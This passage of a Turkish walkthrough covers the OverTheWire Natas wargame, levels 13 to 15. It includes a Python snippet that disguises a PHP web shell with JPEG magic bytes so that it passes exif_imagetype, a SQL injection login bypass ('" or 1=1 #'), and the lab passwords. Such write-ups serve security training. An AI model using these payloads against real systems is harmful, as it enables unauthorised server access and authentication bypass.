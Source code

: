 Bir önceki seviyedeki ile aynı fakat bu sefer yüklediğimiz dosyalar üzerinde daha fazla kontrol var. `exif_imagetype($_FILES['uploadedfile']['tmp_name'])` fonksiyonu ile yüklediğimiz dosyalar magic byte kontrolünden geçiyor. Magic byte her dosyanın başında  bulunan ve dosyanın türünü gösteren birkaç byte dir. İnternetten araştırarak magicbyte ile ilgili daha fazla bilgiye ulaşabilirsiniz.

[Buradaki][5] formu inceleyerek fonksiyon hakkında daha fazla bilgi alabilir ve bu fonksiyonu nasıl bypass edebileceğinizi anlayabilirsiniz. Bu formdaki python kodunu kullanarak gerekli dosyayı oluşturdum ve sisteme yükleyerek natas14 şifresini elde ettim.

```python
f = open('shell.php','w')
# \x ile başlayan karakterler jpg magicbytleri.
f.write('\xFF\xD8\xFF\xE0' + '<? system("cat /etc/natas_webpass/natas14"); ?>')
f.close()
```

Programı çalıştırıp oluşan dosyayı sisteme yükleyerek şifreyi alabilirsiniz.

```text
natas14: Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
```

## Level 14 -> Level 15

Bu seviye SQLinjection ile ilgili. SQLinjection kullanıcıdan gelen verinin kontrol edilmeden doğrudan sql sorgusuna dahil edilmesinden delayı kaynaklanır. Kullancı sqlde metakarakterker girerek sql sorgusunu değiştirebilir. Bu sayede veritabanından bilgi çekebilir yada sql sorgusunun sunucunun doğru(True) dönmesini sağlayabilir. İnternette araştırarak SQLinjection ile ilgili daha ayrıntılı bilgi edinebilirsiniz.

Soruya dönecek olursak giriş yapmamızı istiyor. Kaynak kodu incelersek girdiğimiz verilerin kontrol edilmeden kullanıldığını görüyoruz.

```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\" and password=\"".$_REQUEST["password"]."\"";
```

Buradaki sql sorgusuna müdahale etmemiz gerek. O zaman kullanıcı adını `biseyler"` gibi bir şey ile değiştirirsek sql sorgusunu çifttırnak ile değiştirmiş oluruz. sorgunmuz `SELECT * from users where username="biseyler""...` (... sorgunun devamı demek. Hepsini yazmamı beklemediniz değil mi:\) ) şeklinde değişir. Yani araya çifttırnak ekledik. `biseyler" or 1=1` gibi bir şey girersek sorgumuz ``SELECT * from users where username="biseyler" or 1=1"...` heline gelir. `or 1=1` ile sorgumuzun sonucunun True gelmesini sağladık. Ama bi sorun var ikinci çifttırnak sorguda syntax hatasına yol açar. Bunu çözmek için yorum satırı ekleyebiliriz. `#` sql de yorum satırı demektir. Girdimiz `biseyler" or 1=1 #` şeklide olursa sql sorgumuzun son hali:

```sql
SELECT * from users where username="biseyler" or 1=1 #" and passowrd="biseyler"
```

`#` dan sonraki yorum satırı olduğu için dikkate alınmayacak ve sorgumuzun sonucu doğru dönecek. Şifreye ihtiyacımız olmadan giriş yaptık.

```natas15
natas15: AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J
```


[1]: (http://natas5.natas.labs.overthewire.org)
[2]: (http://natas6.natas.labs.overthewire.org/includes/secret.inc)
[3]: (http://bilgisayarkavramlari.sadievrenseker.com/2009/04/20/yahut-sifrelemesi-xor-encryption/)
[4]: (http://www.wiki-zero.co/index.php?q=aHR0cHM6Ly9lbi53aWtpcGVkaWEub3JnL3dpa2kvS25vd24tcGxhaW50ZXh0X2F0dGFjaw)
[5]: https://stackoverflow.com/questions/18357095/how-to-bypass-the-exif-imagetype-function-to-upload-php-code